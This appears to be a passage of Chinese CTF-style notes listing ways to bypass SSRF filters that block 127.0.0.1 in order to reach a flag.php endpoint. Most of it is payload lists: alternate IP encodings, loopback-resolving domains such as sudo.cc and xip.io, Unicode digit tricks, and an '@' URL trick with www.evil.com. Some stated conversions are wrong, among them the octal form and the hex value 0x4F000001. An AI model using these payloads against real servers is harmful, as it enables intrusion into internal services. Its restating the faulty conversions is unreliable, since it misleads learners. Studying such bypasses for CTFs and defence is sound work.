 

# 5.SSRF回环地址的绕过

http://127.0.0.1/flag.php被过滤

将127.0.0.1转换为其他进制

八进制 ：177000000001或点分式：0177.0000.0000.0001

十六进制0x4F000001

十进制2130706433

```
url=http://0/flag.php 
url=http://127.1/flag.php 
url=http://0x7f.0.0.1/flag.php
url=http://0177.0.0.1/flag.php
```

http(s)://sudo.cc

> A记录：A 记录（Address Record）是一种 DNS 记录类型，用于将域名映射到一个 IPv4 地址。通过设置 A 记录，你可以将特定的域名直接指向一个具体的 IP 地址，从而使用户能够通过这个域名访问相应的服务器或网络资源。
>
> http(s)://sudo.cc就是一个A记录为127.0.0.1的

其他绕过127的方法
如果目标代码限制访问的域名只能为 http://www.xxx.com，那么我们可以采用HTTP基本身份认证的方式绕过。即@：http://www.xxx.com@www.evil.com http://www.evil.com/

http://xip.io，当访问这个服务的任意子域名的时候，都会重定向到这个子域名，如访问：http://127.0.0.1.xip.io/flag.php时，实际访问的是http://127.0.0.1/1.php 像这样的网址还有 http://nip.io，http://sslip.io

短网址目前基本都需要登录使用，如缩我，https://4m.cn/

各种指向127.0.0.1的地址

```
http://localhost/         # localhost就是代指127.0.0.1
http://0/                 # 0在window下代表0.0.0.0，而在liunx下代表127.0.0.1
http://[0:0:0:0:0:ffff:127.0.0.1]/    # 在liunx下可用，window测试了下不行
http://[::]:80/           # 在liunx下可用，window测试了下不行
http://127。0。0。1/       # 用中文句号绕过
http://①②⑦.⓪.⓪.①
http://127.1/
http://127.00000.00000.001/ # 0的数量多一点少一点都没影响，最后还是会指向127.0.0.1

```



# 6.SSRF之302重定向绕过

## VPS
